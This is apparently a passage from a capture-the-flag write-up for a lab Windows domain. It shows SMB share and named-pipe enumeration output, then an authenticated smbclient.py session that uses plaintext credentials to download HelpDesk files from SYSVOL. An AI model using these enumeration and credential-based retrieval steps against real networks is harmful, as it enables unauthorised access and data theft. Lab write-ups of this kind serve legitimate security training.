 ```bash
    "Winsock2\\CatalogChangeListener-364-0",
    "Winsock2\\CatalogChangeListener-460-0",
    "Winsock2\\CatalogChangeListener-5e8-0",
    "Winsock2\\CatalogChangeListener-b30-0",
    "Winsock2\\CatalogChangeListener-b78-0",
    "atsvc",
    "de6b567e41685d69",
    "epmapper",
    "eventlog",
    "lsass",
    "msfte\\MSSQL15.SQLEXPRESSF734f09daf4e36f4be6fad76f78b03b41457ag4bffCBStatus",
    "msfte\\MSSQL15.SQLEXPRESSF734f09daf4e36f4be6fad76f78b03b41457ag4bffFDReq",
    "msfte\\MSSQL15.SQLEXPRESSF734f09daf4e36f4be6fad76f78b03b41457ag4bffFTEtoFDAdmin",
    "netdfs",
    "ntsvcs",
    "openssh-ssh-agent",
    "scerpc",
    "srvsvc",
    "vgauth-service",
    "wkssvc"
  ],
  "NETLOGON": [
    "HelpDesk/Restart-OracleService.exe",
    "HelpDesk/Server MSSQL.msg",
    "HelpDesk/WinRM Service.msg"
  ],
  "SYSVOL": [
    "LicorDeBellota.htb/Policies/{22027191-6A36-4F0F-951F-31AA56DEC705}/GPT.INI",
    "LicorDeBellota.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/GPT.INI",
    "LicorDeBellota.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf",
    "LicorDeBellota.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Registry.pol",
    "LicorDeBellota.htb/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/GPT.INI",
    "LicorDeBellota.htb/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf",
    "LicorDeBellota.htb/scripts/HelpDesk/Restart-OracleService.exe",
    "LicorDeBellota.htb/scripts/HelpDesk/Server MSSQL.msg",
    "LicorDeBellota.htb/scripts/HelpDesk/WinRM Service.msg"
  ]
}
❯ smbclient.py LicorDeBellota.htb/'Kaorz':'Roper4155'@PivotAPI.LicorDeBellota.htb
# use SYSVOL
# cd LicorDeBellota.htb/scripts/HelpDesk
# ls
drw-rw-rw-          0  Sun Aug  9 17:40:36 2020 .
drw-rw-rw-          0  Sun Aug  9 17:40:36 2020 ..
-rw-rw-rw-    1854976  Fri Feb 19 12:33:15 2021 Restart-OracleService.exe
-rw-rw-rw-      24576  Sun Aug  9 17:40:36 2020 Server MSSQL.msg
-rw-rw-rw-      26112  Sun Aug  9 13:45:39 2020 WinRM Service.msg
# mget *
[*] Downloading Restart-OracleService.exe
[*] Downloading Server MSSQL.msg
[*] Downloading WinRM Service.msg
```


[127.0.0.1]: PS C:\> ls -R C:\Developers